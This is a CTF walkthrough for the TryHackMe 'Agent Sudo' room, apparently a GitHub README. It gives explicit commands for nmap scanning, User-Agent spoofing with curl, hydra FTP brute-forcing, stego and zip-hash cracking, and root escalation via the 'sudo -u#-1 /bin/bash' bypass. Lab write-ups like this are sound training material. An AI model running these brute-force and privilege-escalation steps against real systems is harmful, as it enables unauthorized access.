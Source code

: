 # Agent-sudo
  ~ https://tryhackme.com/room/agentsudoctf

* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")
*  ### Do follow this page through out the line to void confusion.

<br>

![agent intro](https://user-images.githubusercontent.com/112984045/200202387-5bdfb2f9-7472-4800-98c3-4be0c7cf5cd6.png)
~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![agent nmap](https://user-images.githubusercontent.com/112984045/200202581-9bf78648-dd20-405c-a637-f425b7906587.png)
<br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shy.bu9/portscanner)
 ![agent portscanner](https://user-images.githubusercontent.com/112984045/200202803-394383ff-08e1-482d-81fc-dcf55cb58e0c.png)<br>

  ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 3
 * PORT NUMBERS : 21,22,80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 21 : ftp
 * service running on PORT 22 : ssh
 * service running on PORT 80 : http
 
 * As the port 80 is open lets have a look on web pages using IP
 ```bash
 http://<IP>
 ```
 
 <br>
 
 ![agent web](https://user-images.githubusercontent.com/112984045/200203533-42b6d9f3-8958-4fde-9071-022fc1017b4f.png)
  <br> ~ Here we have been redirected to Annoucement page as user-agent.
  
  
 * After reading hint for the next question, we came to know that this is not a browser thing and lets for curl command :
 ```bash
 curl http://<IP> -H "User-Agent : R" -L
 ```
 #### arguments
 ` -H : used for mentioning the host name .i.e User-Agent : R`<br>
 ` -L : used to follow any redirects`
 <br>
 ![agent curlR](https://user-images.githubusercontent.com/112984045/200206715-6a3b72ad-ef57-4f6f-a78b-d1c6e3903f91.png)
<br> ~ the Agent R is talking about other 25 users and hint is given as 'user agent : C'
* Lets curl once again using ' User-Agent : C'
```bash
curl http://<IP> -H "User-Agent : C" -L
```
![agent curlC](https://user-images.githubusercontent.com/112984045/200207134-58f372d6-b46b-4c24-80fc-21ec4f91eb46.png)
<br> ~ Here we came to the name of the Agent and there is one more Agent called Agent-J.

## FOOTHOLD
* Now we have the name of user, maybe we can try bruteforcing the ftp and ssh server.
* By looking at the next question, we go for FTP bruteforce first using hydra command :
```bash
hydra -l < user name that we got in curl > -P < rockyou file including its path> ftp://<IP>
```
![agent hydra](https://user-images.githubusercontent.com/112984045/200208317-9c6e5cda-379d-443e-a591-109cbaca36a2.png)
<br> ~ We have successfully got the username and password for FTP.

<br>

* After logging in to FTP, we can look for files and get them using the commands :
``` bash
ls -la
```
```bash
get cutie.png
```
```bash
get To_agentJ.txt
```
```bash
get cute-alien.jpg
```
![agent ftplogin](https://user-images.githubusercontent.com/112984045/200209136-fb680d99-f316-4702-ba9d-ebbccc994923.png)

<br>

* Now we can read the files using cat command :
```bash
cat To_agentJ.txt 
```
![agent to_agentJ](https://user-images.githubusercontent.com/112984045/200210004-d72412f2-3131-4a9b-ae7e-7010b6d8daae.png)
 <br> ~ Here we can understand that the other two are not just pictures but something is hidden in them.
<br>

* ` Insted of john-the-ripper i have used stegcracker which is less complex but time consuming.`
 ![agent stegcracker fail](https://user-images.githubusercontent.com/112984045/200213716-7237b48b-25f7-4a42-9a7f-a2760142500b.png)
 <br> ~ Firstly i have tried to crack 'citie.png' which poped as error. Then gone for the other file 'cute-alien.jpg'.
 <br>
 
 ```bash
 stegcracker cute-alien.jpg
 ```
![agent stegcracker pass](https://user-images.githubusercontent.com/112984045/200214249-01285045-e96d-4442-aaaa-5e57898cc6e1.png)
 <br> 
 ` ~ At this point the FULLNAME of the other Agent and his PASSWORD, These might be the credentials for SSH.`
 
 #### but... wait a minute !!!!
 ![agent zip qa](https://user-images.githubusercontent.com/112984045/200215759-ebda9449-a8dd-4ea1-8f01-20e179c7712c.png)<br>
 #### who are you!
 
 <br>
 
 * ` Now we should definetly go for john-the-ripper.`
 <br>
 
 * Firstly, to extract hidden directory use the command :
 ```bash
 sudo binwalk -e cutie.png --run-as=root
 ```
 ![agent binwalk](https://user-images.githubusercontent.com/112984045/200216514-c741df53-5cc1-46e3-a2c2-b8be84f8bade.png)
 <br> ~ There is a zip file here named '8702.zip'.
 * When we try to unzip the file, it redirecting us to To_agentR.txt
  <br>
  
  * We can use john for here <br>
  
  * Firstly get the hash into a file by using the command :
  ```bash
  john 8702.zip > zip.hash
  ```
  ![agent hash](https://user-images.githubusercontent.com/112984045/200217404-aff6bfe1-0fba-4a03-80f8-ea7805ad72b7.png)

  
  * Then go for cracking the hash by using the command :
  ```bash
  john zip.hash
  ```
 ![agent upzip](https://user-images.githubusercontent.com/112984045/200217570-c5cf4f16-20e3-4b33-bfdc-b37066202d60.png)
<br> ~ Now we have the password for zip file, we can go for unzip but it is not working properly.

* We have alternate 7z for this, use the command :
```bash
7z e 8702.zip
```
![agent 7z](https://user-images.githubusercontent.com/112984045/200218572-0e649a7b-ec62-4308-986b-cf524ad28b7d.png)
<br> ~ Successfully stored the contents to To_agentR.txt.

* We can have a look, this seems to be one more username which hashed.

<br>

* Let us go for [CyberChef](https://icyberchef.com/) to extract the hash.<br>
![agent cyberchef](https://user-images.githubusercontent.com/112984045/200219353-27119b5d-d9d3-49fc-b430-469b6350b3cd.png)

` I WAS SHOCKED AFTER LOOKING AT THIS OUTPUT `
* This was just the same password which i have very long ago using 'stegcracker'.
<br>

* Ok.. Now let us login to SSH with the credentials we already had we had long ago.
 ![agent userflag](https://user-images.githubusercontent.com/112984045/200223600-afb7329d-6b20-44bc-839a-d8bdc96ead16.png)
<br> ~ I have just loged in and captured the user flag.Then downloaded the 'Alien_autospy.jpg' file using the command : 
```bash
scp <ssh_user@IP>:Alien_autospy.jpg <directory path>
```
![agent scp](https://user-images.githubusercontent.com/112984045/200224880-50e93634-eefc-4412-b06d-5918a0c9c43c.png)

* The image question was a bit tircky. Here we have to search for 'reverse image search' in google. <br>
* Upload the image their and look for FOX-NEWS' articals in results.
![agent image](https://user-images.githubusercontent.com/112984045/200231888-d2bec7dc-ecdf-40a9-83d3-ac57af326589.png)




## PRIVILEGE ESCALATION :
* Let us check for sudo rights of the user using the command :
``` bash
sudo -l
```
![agent sudo-l](https://user-images.githubusercontent.com/112984045/200225138-dbf7cf90-c0e2-43c3-a99a-7f2dea847c5f.png)
<br> ~ These rights are a bit different.<br>
` the user cannot run /bin/bash as root which is mentioned.`<br>
` but all refer that user can run /bin/bash as any other user.`

* We can directly gain the root access using the command : 
```bash
sudo -u#-1 /bin/bash
```

<br>
* Rather i have searched for google regarding this right. <br>

* I end up using the same command after getting CVE: details on google.
![agent rootflag](https://user-images.githubusercontent.com/112984045/200226962-1c1b493b-a26b-4f54-a154-d7f77fbe2dde.png)
<br> ~ We have successfully escalated to root and captured the flag.
* At last the name of Agent R is revealed, which even i was curious to know.


`DO SUBMIT YOUR FLAG TO COMPLETE THE TASK`
   
### FOR ANY DOUBTS OR SUGGESTIONS DO WRITE TO shy.bu9@gmail.com

 
